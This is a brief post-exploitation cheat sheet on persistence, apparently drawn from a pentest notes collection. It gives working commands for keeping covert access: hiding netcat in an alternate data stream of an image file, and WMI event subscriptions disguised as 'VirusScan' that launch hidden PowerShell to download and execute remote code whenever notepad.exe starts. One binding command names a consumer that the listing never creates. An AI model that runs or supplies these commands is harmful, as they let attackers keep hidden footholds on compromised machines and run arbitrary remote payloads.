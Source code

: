 ```yaml
---
title: Persistance
category: Post-Exploitation
order: 101
---
```


>**Linux**

<code>setsid *command*</code>

>**Windows**

ADS and Scheduled Task (user level) |  <code> type c:\tools\nc.exe > c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>

WMI Persistence:
<code> 
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'" 
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\""
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
</code>

* http://pwnwiki.io/#!persistence/windows/index.md
